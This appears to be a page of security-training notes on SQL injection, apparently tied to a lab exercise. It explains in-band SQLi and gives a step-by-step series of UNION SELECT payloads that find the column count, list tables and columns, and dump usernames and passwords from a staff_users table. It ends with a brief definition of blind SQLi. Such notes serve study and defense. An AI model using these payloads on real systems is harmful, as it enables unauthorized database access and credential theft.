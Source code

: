 ## In-Band SQL Injections

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication 
being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability 
on a website page and then being able to extract data from the database to the same page.


This statement should produce an error message informing you that the UNION SELECT statement has a different 
number of columns than the original SELECT query. Add more columns if necessary
```JavaScript
1 UNION SELECT 1
```
```JavaScript
1 UNION SELECT 1,2
```
```JavaScript
1 UNION SELECT 1,2,3
```

Get the database name
```JavaScript
0 UNION SELECT 1,2,database()
```

Get all the tables in the database test
```JavaScript
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'test'
```

The information we want to retrieve has changed from table_name to column_name, the table we are querying in 
the information_schema database has changed from tables to columns, and we're searching for any rows where the 
table_name column has a value of staff_users.
```JavaScript
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

The results from the query above provide three columns for the staff_users table: id, password, and username. 
We can use the username and password columns for our following query to retrieve the user's information.

Use the group_concat method to return all of the rows into one string
```JavaScript
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

## Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.





